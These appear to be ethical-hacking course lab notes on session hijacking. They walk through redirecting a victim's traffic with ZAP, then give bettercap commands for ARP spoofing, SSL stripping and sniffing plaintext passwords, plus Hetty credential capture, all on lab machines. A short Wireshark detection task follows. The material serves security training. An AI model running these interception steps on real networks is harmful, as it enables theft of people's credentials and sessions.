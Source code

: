 Module 11: Session Hijacking

A session hijacking attack refers to the exploitation of a session token-generation mechanism or token security controls that enables an attacker to establish an unauthorized connection with a target server. The attacker guesses or steals a valid session ID (which identifies authenticated users) and uses it to establish a session with the server.

Active session hijacking: An attacker finds an active session and takes it over
Passive session hijacking: An attacker hijacks a session, and, instead of taking over, monitors and records all the traffic in that session

**Lab 1: Perform Session Hijacking**
Session hijacking can be divided into three broad phases:

Tracking the Connection: The attacker uses a network sniffer to track a victim and host, or uses a tool such as Nmap to scan the network for a target with a TCP sequence that is easy to predict

Desynchronizing the Connection: A desynchronized state occurs when a connection between the target and host has been established, or is stable with no data transmission, or when the server’s sequence number is not equal to the client’s acknowledgment number (or vice versa)

Injecting the Attacker’s Packet: Once the attacker has interrupted the connection between the server and target, they can either inject data into the network or actively participate as the man-in-the-middle, passing data between the target and server, while reading and injecting data at will

**Task 1: Hijack a Session using Zed Attack Proxy (ZAP)**

to configure the proxy settings in the victim’s machine

	[Win11]
	Chrome -> Settings -> Advanced -> System -> Proxy Settings -> Manual proxy setup - Use a proxy server-> Setup -> On - Use a proxy server, Proxy Ip - 10.10.1.19 Port-
	8080 -> Save
	
	[Win19]
	Launch ZAP
	Click + select Break from options  -> Break Tab is added

Note: The Break tab allows you to modify a response or request when ZAP has caught it. It also allows you to modify certain elements that you cannot modify through your browser, including:

The header
Hidden fields
Disabled fields
Fields that use JavaScript to filter out illegal characters

	Configure ZAP proxy
	Options -> Local Proxies -> Address - 10.10.1.19 -> Port - 8080 - OK
	Set break on all requests and responses icon (green button) - turn green to read

	[Win11]
	www.moviescope.com 
	
	[Win19]
	Break tab and click the Submit and step to next request or response icon on the toolbar to capture the www.moviescope.com request.
	HTTP response appears; click the Submit and step to next request or response icon again on the toolbar.
	In the Break tab, modify www.moviescope.com to www.goodshopping.com in all the captured GET requests.
	click the Submit and step to next request or response
	In all the HTTP Not Found requests, click the Submit and step to next request or response
	modify every GET request captured by OWASP ZAP until you see the www.goodshopping.com page in the victim’s machine.
	
	[Win 11]
	www.moviescope.com, but now sees www.goodshopping.com
	
	Change the proxy settings back to the default settings

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Task 2: Intercept HTTP Traffic using bettercap

	[parrot]
	sudo su
	cd
	bettercap -h
	bettercap -iface eth0  (-iface: specifies the interface to bind to)
	help -> to view the list of available modules in bettercap.
	
	net.prob on 					-> (This module will send different types of probe packets to each IP in the current subnet for the net.recon module to detect them.)
	net.recon on 					-> (responsible for periodically reading the system ARP table to detect new hosts on the network.)
		Note: The net.recon module displays the detected active IP addresses in the network. In real-time, this module will start sniffing network packets.
	set http.proxy.sslstrip true 	-> enables SSL stripping.
	set arp.spoof.internal true  	-> spoofs the local connections among computers of the internal network.
	set arp.spoof.targets 10.10.1.11 ->  spoofs the IP address of the target host.
	http.proxy on 					-> initiates http proxy
	arp.spoof on 					-> initiates ARP spoofing.
	net.sniff on 					-> performing sniffing on the network.
	set net.sniff.regexp '.password=.+' -> This module will only consider the packets sent with a payload matching the given regular expression (in this case, ‘.password=.+’).
		
	[win11]
	http://www.moviescope.com - open in Mozilla 
	
	[parrot]
	sam/test
	
	[parrot]
	observe the details of both the browsed website and the credentials obtained in plain text
	 
	 Note: bettercap collects all http logins used by routers, servers, and websites that do not have SSL enabled. In this task, we are 
	using www.moviescope.com for demonstration purposes, as it is http-based. To use bettercap to sniff network traffic from https-based websites, you must enable 
	the SSL strip module by issuing the command set http.proxy.sslstrip true.
	Ctrl+c

Note: bettercap collects all http logins used by routers, servers, and websites that do not have SSL enabled. In this task, we are using www.moviescope.com for demonstration purposes, as it is http-based. To use bettercap to sniff network traffic from https-based websites, you must enable the SSL strip module by issuing the command set http.proxy.sslstrip true.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Task 3: Intercept HTTP Traffic using Hetty

	[Win11]
	share:\Hetty\hetty.exe
	Open File - Security Warning window appears, click Run.
	
	launch web browser
	http://localhost:8080
	MANAGE PROJECTS
	Moviescope + click CREATE & OPEN PROJECT  -> Moviescope has been created under Manage projects section with a status as Active.
	Click Proxy logs icon ()) from the left-pane.
	
	[Win22]
	Enable proxy for 10.10.1.11
	http://www.moviescope.com 
	
	[Win 11]
	logs are captured in the Proxy logs page
	
	[Win22]
	sam/test
	
	[Win 11]
	Check for POST log captured 
	select Body tab under POST section.
	captured credentials can be used to log in to the target user’s account and obtain further sensitive information.
	
	Disable proxy settigns

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
**Lab 2: Detect Session Hijacking**

**Task 1: Detect Session Hijacking using Wireshark**

	[Win11]
	wireshark
	[parrot]
	sudo su -> cd
	Launch a session hijacking attack on the target machine (Windows 11) using bettercap. 
	sudo su
	cd
	bettercap -iface eth0
		-iface: specifies the interface to bind to (here, **eth0**).
	net.probe on
	net.recon on
	net.sniff on
	
	[Win 11]
	Observe the huge number of ARP packets 

Note: bettercap sends several ARP broadcast requests to the hosts (or potentially active hosts). A high number of ARP requests indicates that the system at 10.10.1.13 (the attacker’s system in this task) is acting as a client for all the IP addresses in the subnet, which means that all the packets from the victim node (in this case, 10.10.1.11) will first go to the host system (10.10.1.13), and then the gateway. Similarly, any packet destined for the victim node is first forwarded from the gateway to the host system, and then from the host system to the victim node.
